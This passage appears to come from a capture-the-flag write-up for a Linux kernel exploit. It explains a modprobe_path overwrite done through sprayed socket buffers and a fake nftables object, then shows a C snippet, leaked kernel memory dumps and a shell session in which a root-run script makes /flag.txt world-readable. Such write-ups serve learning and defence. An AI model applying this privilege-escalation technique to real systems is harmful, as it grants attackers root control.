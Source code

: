 This creates a file called /home/user/roooot with an unknown header, triggering the kernel's modprobe. It also creates a simple shell file /home/user/w that makes flag.txt world readable, and then executes /home/user/roooot. This triggers the kernel's modprobe and, since I will set it to /home/user/w, that shell script will be executed by root. All that is left is to cat /flag.txt.

```c
fake_nft[0] = modprobe_path - 8;
spray_skbuff(fake_nft, SKBUFF_SIZE);
strcpy(buf, "/home/user/w");
write_nft(1, buf);
modprobe_hax();
```

After exiting, /flag.txt will be rwx for all users, and the flag can be read.

```
0xffffffff82e00000
0x00| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x10| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x20| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x30| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x40| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x50| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x60| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x70| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x80| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x90| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xa0| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xb0| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xc0| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xd0| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xe0| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xf0| 41 41 41 41 41 41 41 41 00 68 b8 01 bd a2 ff ff 
0xffffffff83000000
0x00| 8d 3d f2 ff ff ff b9 01 01 00 c0 48 8b 05 86 75 
0x10| a5 01 48 c7 c2 00 00 00 83 48 29 d0 48 01 f8 48 
0x20| 89 c2 48 c1 ea 20 0f 30 56 e8 ea 05 00 00 5e 6a 
0x30| 10 48 8d 05 03 00 00 00 50 48 cb e8 08 01 00 00 
0x40| 48 8d 3d b1 ff ff ff 56 e8 1b 02 00 00 5e 48 05 
0x50| 00 20 01 05 eb 10 66 90 e8 eb 00 00 00 48 31 c0 
0x60| 48 05 00 c0 80 04 0f 20 e1 83 e1 40 81 c9 a0 00 
0x70| 00 00 f7 05 4c 9d 66 01 01 00 00 00 74 06 81 c9 
0x80| 00 10 00 00 0f 22 e1 48 03 05 7a 3f 81 01 56 48 
0x90| 89 c7 e8 b1 01 00 00 5e 0f 22 d8 0f 20 e1 48 89 
0xa0| c8 48 81 f1 80 00 00 00 0f 22 e1 0f 22 e0 48 c7 
0xb0| c0 bf 00 00 83 ff e0 0f 01 15 3a 3f 81 01 31 c0 
0xc0| 8e d8 8e d0 8e c0 8e e0 8e e8 b9 01 01 00 c0 8b 
0xd0| 05 c3 74 a5 01 8b 15 c1 74 a5 01 0f 30 48 8b 25 
0xe0| bc 74 a5 01 56 e8 7e 05 00 00 5e b8 01 00 00 80 
0xf0| 0f a2 89 d7 b9 80 00 00 c0 0f 32 89 c2 0f ba e8 
Kernel base: 0xffffffff83000000
Modprobe Path: 0xffffffff84851400
/home/user/roooot: line 1: ����: not found
/ $ ls -al /flag.txt
ls -al /flag.txt
-rwxrwxrwx    1 root     root            47 Jan 14 02:36 /flag.txt
/ $ cat /flag.txt
cat /flag.txt
idek{n0N_r3fuNd48lE_tr@s#_0n_7h3_k3rn3l_(h41n}
```
